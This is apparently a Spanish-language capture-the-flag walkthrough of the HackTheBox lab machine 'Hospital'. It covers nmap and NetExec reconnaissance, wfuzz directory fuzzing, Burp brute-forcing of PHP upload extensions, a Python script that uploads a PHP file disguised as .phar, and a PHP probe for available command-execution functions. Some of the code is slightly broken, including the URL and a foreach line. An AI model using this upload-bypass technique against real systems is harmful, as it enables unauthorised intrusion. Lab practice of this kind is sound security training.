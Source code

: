 
-----
- TAG: #DOMINIOS #NETEXEC
----
- Empezamos creando nuestra carpeta Hospital en nuestra terminal, creamos las tres carpetas que necesitaremos para guardar la información 
```
mkt
```

- Empezamos con el proceso de  reconocimiento con **nmap** 
```
ping -c 1 10.10.11.241
```

- Realizamos una auditoria a la red para ver que puertos potenciales estan abiertos
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.241 -oG allPorts
```

- Extraemos la información de los puertos abiertos con 
```
extractPorts allPorts
```
   - Recordemos que con `locate .nse` podemos observar todos los scripts escritos en lua de nmap los cuales contiene categorias.
   - Con `locate .nse | xargs grep "categories"` podemos filtrar por categorias

- Realizamos el escaneo a los puertos abiertos y guardamos el output en el archivo **targeted**
```
nmap -p(puertos) -sCV 10.10.11.241 -oN targeted
```
 - Ahora el formato lo podemos ver en archivo grepeable y con estilo java con `cat taget -l java`
 - Vemos información como el la versión de Ubuntu corriendo por el puerto `22` y podemos tirar de **Launchpad**, con esto obtenemos información que corre un sistema **Lunar** (Puede que este corriendo un sub-sistema dentro de una maquina **Linux**)

## Jugando con Netexec
- Si no tenemos instalado realizamos el siguiente procedimiento de  [Instalación de Netexec](https://www.netexec.wiki/getting-started/installation/installation-on-unix)
- Lo tenemos guardado en /opt/Netexec
- Ahora podemos averiguar un poco mas o encontrar dominios, Para ello deberíamos estar en el directorio **/.local/bin**
```
pushd /opt/Netexec
poetry run netexec smb 10.10.11.241
```

 - Encontrando el dominio lo ingresamos en el **/etc/host** con la dirección ip de la maquina para que lo pueda leer nuestro sistema.
```
10.10.11.241 hospital.htb
```

- Podríamos enumerar un poco de rutas de la url con **wfuzz**
```
wfuzz -c --hc=404,403 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt https://10.10.11.241:443/FUZZ
```
   - Si refleja información o directorios podrias ingresar por la url, jugar un poco con mayúsculas y minúsculas con la palabra clave encontrada.

- Empezamos auditar la otra pagina **http** por el puerto **8080**
`http://hospital.htb:8080`
- Nos creamos un usuario y contraseña y nos logueamos 
- Empezamos auditar ciertas partes como información que nos de la url (usando **whatweb**) por ejemplo, interceptar información con **burpsuite**

----
- Creamos un archivo **extensions** con 
```
echo '.php , .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module' | tr ',' '\n' | sed 's/\.//g' | sed 's/ //' >> extensions
```
	 1. luego lo subimos a burpsuite en intruder en la opción load
	 2. De igual manera en "Grep - Extract" colocar 'load' selecionar /failed.php y poner ok
	 3. Luego de eso empezamos con el ataque de fuerza bruta para ver posibles rutas

- En la parte de scripts nos creamos el siguiente archivo **.py**
```
nvim fileUpload.py
```
```
#!/usr/bin/env python3

import requests
import pdb
import signal
import sys 
import time

from termcolor import colored 
from pwn import *

def def_handler(sig, frame):
 print(colored(f"\n\n[!] Saliendo..\n", 'red'))
 sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:upload.php"
cookies = {'PHPSESSID' : '=gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8080'}

def fileUpload():

    f = open("cmd.php", "r")
    fileContent = f.read()

    fileToUpload = {'image': (f"cmd.phar", fileContent.strip())}

    r = requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)


	log.info("Archivo subido exitosamente")

if __name__ == '__main__':

	fileUpload()
```


- Luego un archivo .php llamado **cmd.php**
```
<?php 
  $dangerous_functions = array("exec", "passthru", "system", "shell_exec", "popen", "proc_open", "pcntl_exec");

  foreach ("$dangerous_functions as $f){
    if (function_exists($f)){
	  echo "\n^[+]" . $f . " - EXISTE";
    }
  }
?>
```
